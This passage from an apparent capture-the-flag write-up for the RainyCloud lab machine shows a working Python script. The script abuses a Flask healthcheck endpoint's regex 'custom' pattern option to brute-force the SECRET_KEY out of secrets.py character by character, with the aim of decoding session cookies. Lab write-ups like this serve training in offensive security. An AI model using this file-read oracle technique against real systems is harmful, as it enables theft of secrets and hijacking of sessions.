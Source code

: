 So now we know there's an app.py, meaning there's also probably some kind of secret.py because this is a flask application.

<figure><img src="../../../.gitbook/assets/image (90) (1) (2) (1).png" alt=""><figcaption><p>\</p></figcaption></figure>

Playing around with this some more, it appears that the 'custom' type would require a pattern, indicating to me this could be searching for regex in files. The reuslt of true / false would tell us whether the character was in it.

<figure><img src="../../../.gitbook/assets/image (91) (2) (1).png" alt=""><figcaption></figcaption></figure>

So now, we would need to create some form of script to brute force out the characters of the SECRET_KEY, because that's needed to decode the cookie and (maybe)_ get a password.

### Brute Force SECRET\_KEY

We can create a really quick python script the brute forcing to get the key.

```python
import string
import requests
import json

chars = string.printable
cookies = {'session': 'eyJ1c2VybmFtZSI6ImdhcnkifQ.Y28liQ.M3OPi3eJ7xcaUmaC0eENYqtHnu4'}

s = requests.Session()
pattern = ""

while True:
    for c in chars:
        try:
            rsp = s.post('http://dev.rainycloud.htb:3333/api/healthcheck', {
                'file': '/var/www/rainycloud/secrets.py',
                'type': 'custom',
                'pattern': "^SECRET_KEY = '" + pattern + c + ".*"
            }, cookies=cookies)
            if json.loads(rsp.content)['result']:
                pattern += c
                print(pattern)
                break
            else:
               pass
               # print(c)
        except Exception:
            print(rsp.content)
```

This would generate the SECRET\_KEY accordingly.

<figure><img src="../../../.gitbook/assets/image (95) (2) (1).png" alt=""><figcaption></figcaption></figure>
